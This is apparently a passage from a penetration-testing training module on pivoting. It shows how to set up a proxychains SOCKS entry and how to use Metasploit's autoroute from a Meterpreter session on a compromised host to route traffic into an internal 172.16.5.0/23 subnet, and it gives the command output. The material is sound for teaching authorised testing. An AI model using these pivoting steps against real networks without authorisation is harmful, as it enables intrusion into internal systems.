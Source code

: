 After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host. We can add the below line at the end of our `proxychains.conf` file located at `/etc/proxychains.conf` if it isn't already there.

**Adding a Line to proxychains.conf if Needed**

Meterpreter Tunneling & Port Forwarding

```shell-session
socks4 	127.0.0.1 9050
```

Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.

Finally, we need to tell our socks\_proxy module to route all the traffic via our Meterpreter session. We can use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

**Creating Routes with AutoRoute**

Meterpreter Tunneling & Port Forwarding

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

Meterpreter Tunneling & Port Forwarding

```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

After adding the necessary route(s) we can use the `-p` option to list the active routes to make sure our configuration is applied as expected.
